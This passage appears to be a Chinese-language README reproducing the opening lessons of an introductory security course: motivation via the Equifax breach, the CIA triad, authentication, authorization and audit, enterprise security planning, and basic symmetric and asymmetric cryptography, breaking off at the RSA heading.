




# HackerMe

## 别说你没被安全困扰过 

### 为什么要学安全？

首先，不知道你是否还记得 2017 年 9 月美国知名征信公司 Equifax 的数据泄露事件，这事导致了 1.45 亿美国居民个人隐私信息被泄露。受事件影响，Equifax 公司市值瞬间就蒸发了 30 亿美元，最后还赔偿给用户 4.25 亿美元，可谓损失惨重。后来，Equifax 公司复盘了安全事故的原因，发现这个事故的罪魁祸首，居然是一个早已被披露出来的安全漏洞，叫作 Apache Struts，真是让人哭笑不得。

> 关于Equifax 公司的数据泄漏详细内容，参见：[Equifax Hacker Incident](EquifaxHackerIncident.md)

你说这事难吗？现在看起来，一点都不难。但问题出现在什么地方呢？我觉得核心点是Equifax 公司的工程师可能没有安全意识，也没有把安全当成一个优先级很高的事情去做。

同样的事情其实还有很多，我觉得 Equifax 公司的低级安全事件，应该给我们每一个程序员敲响警钟，我们在追求开发效率的同时，一定要把“安全”这俩字“放在心上”。

其次，从公司的角度来说，安全同样是不可或缺的一环。

任何一家公司都会存在安全的刚需问题，肯定需要有人来解决它。但是，公司招人组建安全团队，需要投入较大的成本。而这部分安全的成本，很多时候并不产生直接的收益。因此，对很多公司来说，业务都没成熟，就去考虑安全，是不合算的。这也就产生了一种现状：小公司没有安全，大公司都在“补”安全。

从安全发展角度上来讲，这种前期不重视安全，后期再补安全的做法，是很不利的。一方面，在发展前期留下了极大的安全隐患，公司可能在一次攻击后就彻底垮台了。另一方面，后期补安全，会因为安全去改动已经发展成熟的业务，导致安全和业务产生冲突，从而阻碍安全发展。

于是，矛盾点就产生了：很多规模不大的公司不愿意投入成本去做安全，但从长远考虑又需要安全。那该怎么办呢？我认为，如果业务的开发和管理人员，能够具备基础的安全知识，尽早做好安全规划，就能够以很低的成本满足公司前期的安全诉求。

因此，如果你想要在企业的全面发展中占据一席之地，或者是在管理方向上走得更“远”，那么我建议你，尽早地掌握安全知识，掌握企业安全防护的专业技巧。 

### 我们究竟该怎么学习安全呢？

你可能会存在这样的顾虑：安全可能需要花上几年时间学习和实践才能小有所成，时间成本是否有点高呢？确实，想要真正做好安全，时间的磨砺是不可或缺的。但是，这并不意味着你需要几年后再去从事安全相关的工作。正如上面所说的，公司初期的安全需求相对简单。因此，你完全可以快速入门，然后投入到公司的安全需求中去。接下来，你就可以随着公司的发展，边学习边做安全。

那么，学习安全是否门槛很高、难度很深呢？学习安全的过程中，你可能需要懂前端、懂后端、懂操作系统、懂网络。需要懂的知识非常多，但幸运的是，对于安全入门来说，宽度比深度更重要。因此，对于这些基础知识，深刻理解自然更好，但是懂些皮毛也足够了。在专栏中，我也会由浅入深，对安全需要的基础知识进行讲解。

你还可能会问：没有实践的机会，我能不能学好安全呢？确实，实践出真知，个人安全能力的提升，需要经过不断地磨练。跟着专栏进行学习，我相信你可以具备解决安全问题的基本能力。为了帮助你快速实践，我会通过思考题的形式，去引导你分析自己所在公司的现状和未来。你可以将你的所思所想发表出来，共同探讨，进行“沙盘演练”。

总结来说，本次专栏的定位是安全基础课。在专栏的覆盖面上，我会力求全面，让你能够了解安全的方方面面。我希望，通过对安全专栏的学习，你能够具备安全思维，在遇到安全问题的时候，有解决问题的方向和路径。

这里，我为你准备了一张安全攻防知识全景图，包含你需要掌握的所有相关知识。建议你最好保存下来，在之后的学习过程中，有针对性地去训练自己。 


### 专栏内容设计

在内容设计上，我根据安全方向的不同，把专栏内容划分为五个模块。

在第一模块“安全基础”中，我首先会为你系统地讲解安全基础概念、思考框架，以及解决安全问题的思路，带你从理论层次认知安全，让你能够系统地看待安全问题、评估安全需求，为你的安全学习指明方向。

在第二模块“Web 安全”中，我会为你讲述 Web 安全中一些经典安全问题的成因，结合当下 App 端各类接口中存在的 Web 漏洞，让你了解常见的 Web 攻防手段，帮助你在开发时，从源头切断安全问题。

在第三模块“Linux 系统和应用安全”中，我会为你讲解底层攻击的各种手段，以及它们会产生的影响，让你掌握其中的原理，能够在部署底层设施时，遵守安全事项，避免产生运维层面的安全问题。

在第四模块“安全防御工具”中，我会结合真实的安全防护案例，为你介绍六大安全防御工具的使用方法和适用场景。另外，我还会总结一些常见的安全防御手段，引导你建设系统级 的安全防御体系。

在第五模块“业务安全”中，我会为你讲解“黑灰产”的常见手段，教你识别查找“黑灰产”的方法及防护策略。另外，我还会联系实际业务场景，手把手教你系统解决业务安全问题。

我希望学完这个专栏之后，你能够既懂“攻”又懂“防”，既懂理论也懂实践。比如，你既能知道怎么发起一个简单的 SQL 注入攻击，也能够知道怎么从代码开发层次进行防御，同时也会了解到怎么通过和代码接耦合的 WAF 去做防御。又比如，你会知道怎么去规划和设计安全体系，以及在不同的阶段应该做什么事。

除了正文之外，我还设计了几篇不定期加餐，来和你聊一聊目前一些热门的安全方向，希望能够加深你对安全的理解。同时，加餐中也包含了我对个人发展的一些思考和建议。目前，安全行业普遍存在人才供给不足的现象，很多岗位招不到合适的人。因此，我希望结合我的个人经验，能够给想往安全专业发展的同学一些指引，教你成为“合适的人”。

最后，我想说，安全是一个特别重实践的领域，如果你有时间，一定要多练习，多总结。在课程设计中，我在每一节课后都留了思考题，希望你能够结合知识点，给出自己的思考。很多事情都没有标准答案，你梳理的过程本身也就是强化思考的过程，所以，千万不要有心理负担，大胆表达就可以了，我一定会尽我所能及时给你反馈。


## 安全的本质：机密性、完整性、可用性

### 安全是什么？

首先，我们来看，安全是什么？ 

当你所在的企业内网被入侵，数据被窃取之后，你也许能知道，是某个业务漏洞导致黑客能够进入内网，但你是否意识到，数据安全保护机制上同样产生了问题？类似这种的问题有很多。当我们遇到某一个特定的攻击或者安全问题时，往往看到的都是表象的影响，而能否找到根本原因并进行修复，才是安全投入的关键。

任何应用最本质的东西其实都是**数据**。用户使用产品的过程，就是在和企业进行数据交换的过程。比如，用户在使用微博时，或是将数据**写入**到微博（发博、评论、点赞等）中，或是从微博中**获取**数据（刷 feed、热门流）；用户在使用支付宝进行交易时，则是将资产以数据的形式进行转移。

因此，从另一个层面来说，安全的本质就是保护数据被合法地使用。怎么才叫“被合法地使用”呢？我们可以从机密性、完整性、可用性这 3 个方面具体来看。这也是在安全领域内最为基础的 3 个安全原则。


### 安全原则

机密性（Confidentiality）、完整性（Integrity）、可用性（Availability），我们可以简称为 CIA 三元组，是安全的基本原则。理论上来说，一个完整的安全保障体系，应该充分考虑到所有的 CIA 原则。当然，实际情况中，我们会根据企业需求，对安全在这三个方向上的投入做取舍。我们平时在评判一个企业的安全水平时，也会分别从这三个方向进行考量。

可以说，CIA 三元组原则，是安全领域内最基础也最重要的原则。你现在估计还没有感性认识，没关系，先有个整体印象，下面，我来给你详细讲解这三个原则的具体含义。 


#### 机密性

我们先来看机密性。机密性用一句话来说就是，确保数据只被授权的主体访问，不被任何未授权的主体访问。 简单用一个词总结就是**“不可见”**。

如何理解这个定义呢？举个例子，你不会允许陌生人查看你的个人隐私信息，但你可能会允许父母、朋友查看部分信息。同样的，对于应用中的数据，比如微信的朋友圈，你可以允许好友查看三天内的数据，但不允许好友查看三天前的数据。这些都是机密性在日常生活中的表现。

当然，首先你需要注意，机密性的一个前提是明确授权规则，也就是明确每一项数据可以被什么样的主体访问。在这个问题上，最安全的方法一定是，当每一次主体访问某一项数据时，都由相关负责人对该次行为进行审批。但是，这样显然是无法落地的，因为随着互联网的发展，每天都有万亿次的数据访问行为在发生。

因此，在安全领域我们提出了很多访问控制机制和安全模型，对数据和访问主体打上标签或者进行分类，并制定相应的访问控制规则去自动进行授权。关于访问控制机制， 在后续的内容中我们会再详细介绍，这里暂时不展开。另外，数据的存储、传输和处理过程也需要受到应有的保护。这些保护技术包括：加密、隔离、混淆、隐藏等等。

那么，针对机密性的攻击，都有哪些形式呢？ 

有的会直接针对保护技术进行破解。比如，去破解加解密算法、去逆向混淆代码等等。经过长期的发展，这些保护技术普遍都趋于成熟，安全性也在不断地提高。有了前人的积累，在保护技术上，我们其实不需要做太多投入，只需要采用最新的技术即可。

更多的时候，我们面临的机密性攻击，其实是人为原因导致的疏忽，也就是错误使用访问控制机制或数据保护技术。比如，因为权限滥用，导致开发人员拥有敏感数据的无限制访问权限；因为弱密钥，导致加密被破解；甚至显示器上的数据被别有用心的人窥探。所以说，当前机密性保护的要点是引导人去做正确的事情，避免这类看似低级、实则普遍的漏洞发生。

可以说，机密性是我们最容易理解的一个安全原则，也是企业在建立安全时最先想到的点。总的来说，机密性保护的技术都已经十分成熟了，但是在实施和落地的时候，往往会出现误用安全技术的情况。人的懒惰性是不可避免的，因此，机密性的安全保护往往都无法达到最佳状态，而是处于一个可用性和安全性的动态平衡点上。

机密性强调的是数据的“不可见”，但这并不代表数据是正确的。比如，将一个“True”存成了“False”，这就不是机密性要考虑的事了，而这种错误的存储，则是完整性需要考虑的事情。 


#### 完整性

完整性就是确保数据只被授权的主体进行授权的修改，简单来说，就是**“不可改”**。

所谓“授权的修改”，就是对主体可进行的操作进行进一步的限制。比如，只能追加数据的主体无法执行删除的操作。以个人隐私信息为例，法律允许学校或者公司在个人档案内追加信息，但不能做任何修改。又或者说，你自己发的朋友圈，不希望被其他人进行修改。这些都是完整性的典型表现。

在授权方面，机密性中提到的访问控制机制同样适用。除此之外，完整性会更加强调对修改行为的日志记录，并有合适的监督机制进行审计。在保护技术方面，主要是利用加密、签名等技术，使得数据的完整性变得可验证。

你应该发现了，完整性和机密性是紧密相连的。因此，大部分的机制和技术都同时对完整性和机密性提供保护。 

针对完整性的攻击也和机密性一样，更多的是由于人为原因导致的疏忽。除了黑客本身对数据的恶意篡改，已授权的主体也可能对数据完整性产生破坏，比如员工意外地误删除数据、程序 bug 导致错误数据被写入、正常用户的一些无效输入等。

相比于机密性，完整性往往容易被忽视。但是很多时候，机密性和完整性是共同出现的，做好了机密性的保护，基本也意味着做好了完整性的保护。因此，当我们在探讨安全问题、建设安全体系时，要将这两者结合起来，放在一起来研究。

机密性和完整性是为了保障数据是安全的，而数据的最终目的是要能够被看到或者使用。所以，对于数据来说，可用性也是很重要的一个方面。 


#### 可用性

可用性应该是你最熟悉的原则。因为它不仅仅是安全方向上的问题，也是工程上面临的主要挑战。用一句话来说就是，可用性就是确保数据能够被授权的主体访问到， 简单来说，就是**“可读”**。

但事实上，可用性往往没有被划分到安全的责任中去，因为对于大部分企业来说，开发是最受到重视的，而开发会比安全首先去考虑可用性的问题。

举个典型的例子，面对高峰期的集中用户访问，如何保障用户能够正常地获取数据（“双11”购物或者 DDoS 攻击等），你可以看到大量的研发人员对这个问题进行探讨和分享，但这其实都属于安全在可用性上的考量范围。

在安全机制上，我们要确保授权机制能够正确运行，使得拥有访问数据的主体能够及时地被授权，这是可用性的基本。那具体来说，可用性会面临哪些挑战呢？

在运维层面上，有很多技术在为可用性提供支撑，比如，在基础建设上的机房建设（如何在断电、高温、火灾等情况下保护设备）、多地冗余，以及在服务中的备份、资源冗余等。

在研发层面上，如何降低响应延迟、如何处理海量数据、如何在峰值进行扩容等，这些问题其实都是在可用性上的挑战。

在攻击的角度上，黑客也会对可用性发起攻击，也就是我们常说的 DoS（Denial of Service，拒绝服务）攻击。比如，通过发送大量的流量来占满带宽资源。 

可用性一旦受到损害，其对企业的影响显而易见，也最容易受到关注。长久以来，无数研发和运维人员都投入了大量精力来进行完善。很多时候，可用性的投入，并不会非常精确地被划分到安全的责任中去。这正是我们最需要关注和去做的事情。


### 总结

在所有的安全计划中，都会涉及对 CIA 三元组的取舍。不同的企业，在不同的发展阶段，CIA 都会有不同的优先级。什么是 CIA，你一定要牢记在脑海中，它将会贯穿我们整个专栏的学习。

通常来说，在互联网企业发展初期，可用性的优先级较高。如果涉及金钱相关的业务，则完整性的优先级更高；而涉及个人隐私相关的业务，则保密性的优先级更高。对于大部分企业而言，可用性在初期受到的挑战更多，则越发展越稳定，后期在可用性上的投入会逐渐降低。而完整性和机密性，会随着业务的发展，重要性越来越高，在企业的安全投入中，占比会越来越大。

因此，根据不同的发展阶段，列好 CIA 的优先级，是我们理解安全问题、定义安全需求、建设安全体系首先要做的事情。 


### 课后思考

假设，你正在参加一个面试，面试官问：“你能否从 CIA 三元组的三个特性出发，结合你们公司的业务系统情况，和我分享下你理解的安全是什么？”你会怎么回答呢？ 


## 安全原则：认证、授权、审计

CIA 三元组，也就是机密性、完整性和可用性。它们分别代表了数据的“不可见”“不可改”和“可读”。简单来说，以购买极客时间专栏为例，机密性就是未付费用户无法学习这个专栏，完整性就是这个专栏的内容不会变成别的其他方向的内容，可用性就是你作为付费用户，能够随时学习这个专栏。

理解了 CIA，上一节最后面试官问的“安全是什么”的问题，你现在一定可以回答出来了。面试官点点头，接着说道：“你觉得该怎么去解决安全问题呢？” 

毫无疑问，不同的应用、不同的模块会受到不同的安全威胁，当然，我们面对这些威胁也会有不同的解决方案。万变不离其宗。正如安全威胁都是针对 CIA 三元组产生的攻击一样，安全解决方案在根本思路上也都是相通的。

今天，我就从方法原则这个层面上，来给你讲讲安全解决方案的主要思路。这块内容看起来比较偏理论，我尽量多从实践角度来给你讲我的理解，但是你一定要耐心看完，这样可以确保你对后面实践的内容能够理解得更加深入。


### 什么是“黄金法则”？

对于安全解决方案来说，不同的教材会有不同的解释。就我个人而言，我比较喜欢“黄金法则”这种理解方式。下面我就用这种方式来具体给你讲讲。

黄金法则主要包含三部分：认证（Authentication）、授权（Authorization）、审计（Audit）。为什么称它为“黄金”呢？一方面是因为，它包含的这三部分重要且通用；另一方面是因为，这三个单词的前两个字母都是 Au，而 Au 在元素周期表中代表着“金”。

有的教材中，会给黄金法则加上问责（Accounting）这一部分，组成“4A 法则”；还有的会加上身份识别（Identification），组成“IAAAA 法则”。不管被划分为几个部分，这些法则的中心内容都是相似的，都是围绕着**识别、认证、授权、审计、问责**这五个部分展开的。因此，黄金法则其实就是 IAAAA 法则更高一层的概括，它将识别和认证、审计和问责归纳到了一起，更加强调了这两两之间的协同性质。

搞清楚了“黄金法则”的概念，我们现在来看它的三个部分（认证、授权、审计）。这三部分其实是一种串联的关系，它描述的其实是用户在使用应用过程中的生命周期：先进行登录、再进行操作、最后留下记录。 


下面，我们就一一来看这三个部分。


#### 身份识别和认证

首先，我们先来了解一下黄金法则的第一个部分：认证。认证其实包括两个部分：身份识别和认证。身份识别其实就是在问“你是谁”，你会回答“你是你”。身份认证则会问“你是你吗”，那你要证明“你是你”这个回答是合法的。

身份识别和认证通常是同时出现的一个过程。身份识别强调的是主体如何声明自己的身份，而身份认证强调的是，主体如何证明自己所声明的身份是合法的。比如说，当你在使用用户名和密码登录的过程中，用户名起到身份识别的作用，而密码起到身份认证的作用；当你用指纹、人脸或者门卡等进行登入的过程中，这些过程其实同时包含了身份识别和认证。

通常来说，不管你以什么形式进行登入，在身份识别的过程中，这些形式最终都需要落地成唯一的身份 id。在你后续的操作中，身份 id 都会始终跟随会话，记录在日志中。这也是后续授权、审计和问责的基础。身份识别的过程并不关注合法性，因此，认证是这个部分中最为关键的一环。

依据具体的认证场景，对安全等级、易用性等的综合考量，认证形式可以大致分为三种。按照认证强度由弱到强排序，分别是： 

> 你知道什么（密码、密保问题等）；
>
> 你拥有什么（门禁卡、安全令牌等）；
>
> 你是什么（生物特征，指纹、人脸、虹膜等）。 

我们通过将多种类型的认证进行组合，可以形成多因素认证机制，进一步加强认证强度。常见的，在登录过程中，很多应用会在输入完账号密码后，让你进行手机验证，这其实就是结合了“你知道什么”和“你拥有什么”的双因素认证。

可信的身份认证是建立安全保障体系的第一步。如果身份认证被破解，则后续的保护或者补救机制都无法起到太多的效果。因此，很多时候，通过衡量一个应用的认证安全等级，我们就能看出它整体的安全水平。那么怎样才能做好身份认证这个环节呢？这就需要进行系统分析了，这个问题我们在后续的课程中会详细讲解。 


#### 授权

在确认完“你是你”之后，下一个需要明确的问题就是“你能做什么”。毫无疑问，在系统或者应用中，我们的操作都会受到一定的限制。比如，某些文件不可读，某些数据不可修改。这就是授权机制。除了对“你能做什么”进行限制，授权机制还会对“你能做多少”进行限制。比如，手机流量授权了你能够使用多少的移动网络数据。

最原始和最安全的授权机制，一定是你的每一次操作，都经过了管理人员的审批和确认。比如我们**申请签证**的过程，其实就是一次申请授权的过程。当部分国家的签证策略比较严格时（如美国），那么我们每次出入境都需要重新申请签证，这也就意味着，会有很多的操作需要进行授权审批，其效率肯定是无法保证的（可以想想美国大使馆门前的长队）。

因此，很多时候，我们会定义自动化的授权机制来进行更快速地响应。比如，某些国家会制定免签或者落地签政策，只要符合一定的条件（如拥有中国护照），就能够直接出入境。这就相当于将“是否拥有中国护照”当成了一种授权的规则。同样的，在安全领域中，也有很多成熟的授权策略，如：自主访问控制、强制访问控制等。关于这些策略，在后续的课程中，我们也会进行详细地讲解。 


#### 审计和问责

当你在授权下完成操作后，安全需要检查一下“你做了什么”，这个检查的过程就是审计。当发现你做了某些异常操作时，安全还会提供你做了这些操作的“证据”，让你无法抵赖， 这个过程就是问责。

举一个生活中的例子，当你去**银行办理业务**时，工作人员会让你对一些单据签字。这些单据就是审计的信息来源，而签字则保证了你确认这是你进行的操作，这就是问责的体现。

审计和问责通常也是共同出现的一个过程，因为它们都需要共同的基础：**日志**。很容易理解，所谓审计，就是去通过日志还原出用户的操作历史，从而判断是否出现违规的操作。而问责则是通过日志的完整性，来确保日志还原出来的操作是可信的。想象一下，如果一份日志可以被人任意地篡改，那我们基于这份日志去进行审计，即使发现违规操作，也无法证明违规操作确实发生了，只能是白费功夫。

可能你会产生疑问，你已经获得了授权，理论上这些操作都应该是合法的，那为什么还需要审计呢？当然，如果授权机制能够达到“完美”，那么审计的意义确实不大。然而，我们一直都强调，安全不存在**“银弹”**，不可能达到 100% 的安全。即使是 1% 的漏洞，也可能造成 100% 的损伤。

在授权中，我们需要平衡可用性和安全性，很多时候都会选择牺牲部分的安全保障，来降低使用成本。而审计是事后的策略，它做的任何操作，理论上都不会直接影响用户，因此，能够做到更全面更严格，也能发现更多的问题。所以，审计这一环节，对于发现安全问题、回溯产生的攻击、完善安全保护体系来说，非常重要。

而问责，是对审计结果的一个保障，有的时候我们也称之为“不可否认性”。一方面，它保证了黑客无法通过篡改日志或者仿造身份，来隐藏自己的行为；另一方面它也保证了，当审计中发现了恶意的行为，需要寻求法律保护时，我们能够提供充分的证据。

从法律上来说，一个企业和应用在遭受攻击时，只能进行被动防御。如果想要主动出击，打击黑客的话，必须通过法律的途径。因此，建立完善的问责机制，能够为企业提供“**法律保护”**，大大提高企业安全的自信力。

这里你注意一下，一定不要狭义地去理解黄金法则的每个模块。认证不仅是帐密登录，也可以是生物特征识别或者证书等形式；授权不只是基于简单规则的访问控制，基于内容或者会话的检测等也是授权的一部分；审计也不只是简单的翻日志，很多机器学习、异常检测的算法，也都能运用到审计中来。针对不同的数据，不同的访问形式，我们能够采用的认证、授权、审计技术都不尽相同。 

换一种方式来概括的话，你可以这么理解：大部分情况下，事前防御属于认证，事中防御属于授权，事后防御属于审计。


### 企业安全建设管理

通过学习“黄金法则”，我们可以看到，安全是一个很浩大的工程，涉及各个方面的投入建设。对于任何一个公司来说，建立安全体系都是一个长期过程，因此，我们需要一个有效的管理方案来进行推动。

通过这么些年的实践，我觉得安全问题需要**自上而下的方式**去进行管理和推动。这也是为什么，大部分安全负责人加入企业做的第一件事就是向上教育，只有**企业高层**理解了安全，才有可能有效推动安全的发展。

正如，我们在开发一款应用时，需要评估功能的优先级，先以有限的资源实现 1.0 版本，然后再逐步进行迭代，不断完善。在做企业安全建设时，我们也需要对发展阶段进行划分，进行合理管理。通常来说，我们会根据周期的不同，制定三种安全规划，在这里，我举个简单的例子，比方说，可以制定 **5 年左右的战略计划、1 年左右的战术计划、3 个月左右的操作计划**。 

> 战略计划是一个较长期的安全目标，它和企业的长期发展目标相结合，保证安全的发展能够符合企业的长期发展方向。
>
> 战术计划会基于长期的安全目标，拆解出详细的任务计划，比如：项目列表、安全预算、人员扩张等。
>
> 操作计划则是对战术计划的具体实现，包括人员的分配、资源的投入、进度的安排等。 

和产品研发一样，当建立好不同的计划后，我们就能够给予企业的安全建设一个明确的方向，大大降低投入的成本，提高效率。因此，挖掘安全问题，明确安全计划，对于企业建立安全体系来说，至关重要。


### 总结

黄金法则描述的是，在用户操作的各个环节中，我们所需要采取的安全策略。黄金法则的核心内容包括三部分：认证、授权、审计。大部分情况下，事前防御属于认证，事中防御属于授权，事后防御属于审计。

毫不夸张地说，所有的安全保护措施或者工具，都是在黄金法则的一个或者多个模块中进行工作的。安全是严格遵从“木桶原理”的领域，只专注于某一个方向必然无法产出最优的结果。因此，我们一定要积极寻找短板，全面发展。

最后，我想说，安全没有“银弹”。只有当可用性接近 0 时，我们才有可能接近 100% 的安全。比如，将电脑关闭电源并深埋地下。所以，在实际进行安全防御的时候，不要过分追求完美，先有基本的保障就可以了。


### 课后思考

1. 通过今天的学习，你可以尝试分析一下，你负责的系统和应用中，在认证、授权和审计方面，分别做了哪些工作？又起到了怎样的保护效果？
2. 我在前面说了，安全问题需要自上而下的方式去进行管理和推动，这只是我个人的观点。结合你们公司的实际情况，站在你的角度，你觉得你们公司应该如何去推动安全建设呢？ 


## 密码学基础：对称、非对称、散列算法

黄金法则的三部分核心内容：认证、授权、审计。它们描述了用户在使用应用的各个环节，我们需要采取的安全策略。

在掌握了黄金法则之后，你就能以在安全发展规划上的宏观能力，赢得面试官的认可。接下来，他想考验一下你对安全具体知识的理解，以此来判断你能否将安全发展落地。于是，他问了一个非常基础的问题：你懂加解密吗？

可以说，密码学是“黄金法则”的基础技术支撑。失去了密码学的保护，任何认证、授权、审计机制都是“可笑”的鸡肋。 

在实际的生活工作中经常会有这样的场景发生：多个用户共用一个 Wi-Fi 来上网、共用一个服务器来跑任务；多个进程共用一个数据库来完成数据存储。在这些场景中，多方交互都通过一个共同的通道来进行，那我们该如何保障其中内容的 CIA 呢？这就需要用到各种加密技术了。今天，我们就一起来学习密码学相关的知识。

首先，我先来普及一个语文知识。密钥中的钥，发音为 yuè，不是 yào。虽然通常情况下，你按正常发音读的话，别人都会听成“蜜月”。但是，我们还是要用正确、专业的发音。

接下来，我来介绍一些经典的密码学算法：对称加密算法、非对称加密算法和散列算法。这些算法的具体实现不是咱们课程的重点，而且本身的过程也非常复杂。在安全这块内容里，你只需要明确了解这些算法的概念及其优缺点，就足够你去选取合适的加密算法了。 


### 对称加密算法

首先，我们来看对称加密算法。所谓对称加密，代表加密和解密使用的是同一个密钥。概念很简单，但是也很不具体、直观。为了帮助你理解，我把具体的加解密过程，画了一张图，你可以看一下。 


下面我来具体讲讲这个过程，如果我想给你发一段消息，又不想被其他人知道。那么我作为发送方，会使用加密算法和密钥，生成消息对应的密文；而你作为接收方，想要阅读消息， 就需要使用解密算法和一个同样的密钥，来获得明文。

我们常见的经典对称加密算法有 DES、IDEA、AES、国密 SM1 和 SM4。下面我们一起来具体看看。


#### DES

第一种对称加密算法是 DES（数据加密标准，Data Encryption Standard）。

DES 应该是最早的现代密码学算法之一。它由美国政府提出，密钥长度为 56 位。目前，它暴力破解 56 位密码的时间，已经能控制在 24 小时内了。

DES 实际上是一个过时的密码学算法，目前已经不推荐使用了。关于 DES，还有一点特别有意思。DES 包含一个关键模块：S 盒，其设计的原理一直没有公开。因此，很多人都相信，这个 S 盒中存在后门，只要美国政府需要，就能够解密任何 DES 密文。


#### IDEA

第二种对称加密算法是 IDEA（国际数据加密算法，International Data EncryptionAlgorithm）。

IDEA 由瑞士研究人员设计，密钥长度为 128 位。对比于其他的密码学算法，IDEA 的优势在于没有专利的限制。相比于 DES 和 AES 的使用受到美国政府的控制，IDEA 的设计人员并没有对其设置太多的限制，这让 IDEA 在全世界范围内得到了广泛地使用和研究。


#### AES

第三种需要了解的对称加密算法是 AES（高级加密标准，Advanced Encryption Standard）。

在 DES 被破解后，美国政府推出了 AES 算法，提供了 128 位、192 位和 256 位三种密钥长度。通常情况下，我们会使用 128 位的密钥，来获得足够的加密强度，同时保证性能不受影响。目前，AES 是国际上最认可的密码学算法。在算力没有突破性进展的前提下，AES 在可预期的未来都是安全的。


#### 国密 SM1 和 SM4

最后一种是国密 SM1（SM1 Cryptographic Algorithm）和 SM4（SM4 Cryptographic Algorithm）。

我们知道，密码学作为安全的基础学科，如果全部依靠国外的技术，对于国家安全可能产生不利影响。因此，中国政府提出了一系列加密算法。其中，国密算法 SM1 和 SM4 都属于 对称加密的范畴。

- SM1 算法不公开，属于国家机密，只能通过相关安全产品进行使用。
- 而SM4 属于国家标准，算法公开，可自行实现使用。
- 国密算法的优点显而易见：受到国家的支持和认可。

借助下面的对比情况表，相信你会对这几种对称加密算法有更清晰的认识。 


#### 应用

现在你应该对几种经典的对称加密算法有了初步地了解。接下来，我们来看一看它们是如何应用的。

- 在加密通信中（如 HTTPS、VPN、SSH 等），通信双方会协商出一个加密算法和密钥，对传输的数据进行加密，从而防止第三方窃取。
- 在类似数据库加密这种存储加密技术中，通信双方也是将存储空间中的数据进行加密，这样即使硬盘被物理窃取，也不会导致信息丢失。
- 在公司内部，为了避免用户的 Cookie 和隐私信息发生泄漏，也需要对它们进行加密存储。
- 对于大部分公司来说，选取 AES128 进行加解密运算，就能获得较高的安全性和性能。
- 如果是金融或政府行业，在涉及国家层面的对抗上，有一定的合规需求，则需要应用国密算法。

另外，在选取加密算法的时候，存在不同的分组计算模式：ECB/CBC/CFB/OFB/CTR。这些模式的具体细节不是我们学习的重点，在这里就不展开了。你需要知道的是：选取 CBC 和 CTR 这两种推荐使用的模式就可以满足大部分需求了，它们在性能和安全性上都有较好的保证。


### 非对称加密算法

有对称就一定会有非对称。非对称加密代表加密和解密使用不同的密钥。具体的加解密过程就是，发送方使用公钥对信息进行加密，接收方收到密文后，使用私钥进行解密。具体我也画了一张图，你可以和上面的对称加密算法的图一起对照着看一下。可以看到，非对称加密和对称加密算法的最大区别就是，加密和解密使用的密钥是不同的。 


当使用对称加密算法的时候，你不仅要跟每一个通信方协定一个密钥，还要担心协商过程中密钥泄漏的可能性。比如，我当面告诉了你一个密码，怎么保证不被偷听呢？而在非对称加密算法中，公钥是公开信息，不需要保密，我们可以简单地将一个公钥分发给全部的通信方。也就是说，我现在就可以告诉你一个公钥密码，即使这意味着所有阅读这篇文章的人都知道了这个密码，那也没关系。因此，非对称密钥其实主要解决了密钥分发的难题。

除了加密功能外，大部分的非对称算法还提供签名的功能。这也就是说，我们可以使用私钥加密，公钥解密。一旦接收方通过公钥成功解密，我们就能够证明发送方拥有对应的私钥，也就能证实发送方的身份，也就是说，私钥加密就是我们说的签名。 

你还可以这样理解，比如我现在和你说话，内容经过了我的私钥加密，你用公钥解得了明文。因为私钥只有我拥有，所以只有我能够发出这段话来，别人都不可能。这也就是说，我不可能狡辩称这段话不是我说的。 


所有的非对称加密算法，都是基于各种数学难题来设计的，这些数学难题的特点是：正向计算很容易，反向推倒则无解。经典的非对称加密算法包括：RSA、ECC 和国密 SM2。接下来，我们一个个来看。


#### RSA

我们先看第一种非对称加密算法 RSA（RSA 加密算法，RSA Algorithm）。

